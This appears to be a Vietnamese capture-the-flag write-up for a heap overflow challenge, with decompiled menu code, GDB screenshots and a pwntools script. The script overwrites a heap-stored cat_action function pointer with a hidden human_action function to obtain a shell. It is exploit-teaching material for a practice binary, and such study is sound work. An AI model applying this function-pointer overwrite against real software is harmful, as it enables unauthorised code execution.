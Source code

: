 # HOF (chuyển hướng luồng thực thi)
- Thay vì thay đổi `rip` như `BOF` thì ta lại OW 1 đoạn địa chỉ mà chương trình sẽ thực hiện đã được lưu vào `heap` , bằng cách đó ta có thể điều kiển chương trình như ý mún ó.
## Tự Hành.
### 1. Source.
```

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v5; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = -1;
  v5 = -1;
  init(argc, argv, envp);
  do
  {
    menu();
    __isoc99_scanf("%d", &v4);
    getchar();
    if ( v4 == 4 )
      continue;
    if ( v4 > 4 )
    {
LABEL_17:
      puts("Invalid choice");
      continue;
    }
    switch ( v4 )
    {
      case 3:
        printf("Index: ");
        __isoc99_scanf("%d", &v5);
        if ( v5 <= 3 && animal_list[v5] )
          animal_say(v5);
        else
          puts("Invalid index");
        break;
      case 1:
        if ( count > 3 )
          goto LABEL_9;
        add_cat();
        break;
      case 2:
        if ( count > 3 )
        {
LABEL_9:
          puts("Maximum 4 pets only!");
          break;
        }
        add_dog();
        break;
      default:
        goto LABEL_17;
    }
  }
  while ( v4 != 5 );
  return 0;
}
```
### 2. Hướng Giải.
- Cơ bản chương trình sẽ cho ta 4 option với 2 option là `add_cat` và `add_dog` , 1 option là `animal say`, cuối cùng là `exit`. Tối đa được add vào là 4 và hàm `animal say` ta sẽ nhập `index` tương ứng với vị trí animal mà bạn đã add và sẽ gọi lên những `action` của từng loại mà bạn đã add.
![1700844516128](image/HEAP-3/1700844516128.png)
![1700844527465](image/HEAP-3/1700844527465.png)
![1700844539812](image/HEAP-3/1700844539812.png)
- Ta có 1 lỗi `BOF` ở `%s` và khi gọi hàm `animal_say` nó sẽ gọi lên hàm `action` tương ứng, và hãy xem cái này:
![1700844690811](image/HEAP-3/1700844690811.png)
- Vào hàm system , bấm *X* thì chương trình lại dấu đi `Human_action` tạo shell cho chúng ta :))))) .
- Thế thì ta chỉ cần làm đơn giản là `OW` hàm `cat_action` được lưu trên `heap` thành hàm `Human_action` kế tiếp ta chọn `option Animal_say` nó sẽ thực thì hàm `Human_action` và thế là ta thu được shell, cùng vào GDB debug xem nhóe :>> .
![1700845045138](image/HEAP-3/1700845045138.png)
![1700845057385](image/HEAP-3/1700845057385.png)
- Khi vào hàm `add_cat` thực thi các hàm `malloc` , check `heap chunks` thì ta có thể thấy ảnh sau có 1 địa chỉ được lưu vào `heap` các bạn nên ( *LƯU Ý: khi mà thấy 1 đoạn địa chỉ bất kì trên heap mà bạn có thể `HOF` hãy tận dụng điều đó để exploit chương trình* ) , thế nên ta chỉ cần tính offset `OW` `cat_action == Human_action` là xong.
- *Offset:* ![1700845314589](image/HEAP-3/1700845314589.png)
![1700845523819](image/HEAP-3/1700845523819.png)
- Vì ta chỉ add 1 con `cat` duy nhất nên index ở đây bất đầu từ 0 ( giống mảng trong c++ )
- Chạy `tools` thì ta thu được shell.
![1700845588642](image/HEAP-3/1700845588642.png)
### 3. Script.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hof2', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+98
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
sla(b"> ", b'1')
payload = b'a'*0x208 + p64(exe.sym['human_action'])
sla(b"Name of your new cat: ", payload)
sla(b"Its age: ", b'2')
sla(b"> ", b'3')
sla(b"Index: ", b'0')

p.interactive()
```